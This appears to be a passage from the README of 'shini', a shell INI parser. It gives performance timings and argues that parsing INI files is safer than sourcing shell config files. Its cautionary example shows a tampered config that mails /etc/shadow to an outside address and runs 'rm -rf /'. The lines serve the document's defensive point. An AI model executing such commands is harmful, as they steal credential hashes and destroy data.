Other/older shells will fall back to expensive calls to `grep` and `sed`, an will perform significantly slower (potentially hundreds of times slower).

On an 2012 i7 MacBook, a 1900 line INI file will fully parse within 0.6s - and a single section therein in under 0.24s (`zsh`):

    $ wc -l tests/php.ini 
    1917 tests/php.ini

    $ time zsh ./test_perf.sh > /dev/null
    real    0m0.595s

    $ time bash ./test_perf.sh > /dev/null
    real    0m0.838s

    $ time ksh ./test_perf.sh > /dev/null
    real    0m2.901s

    $ time zsh ./test_perf.sh opcache > /dev/null
    real    0m0.237s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

    $ time ksh ./test_perf.sh opcache > /dev/null
    real    0m0.543s

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read (or write to) an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```
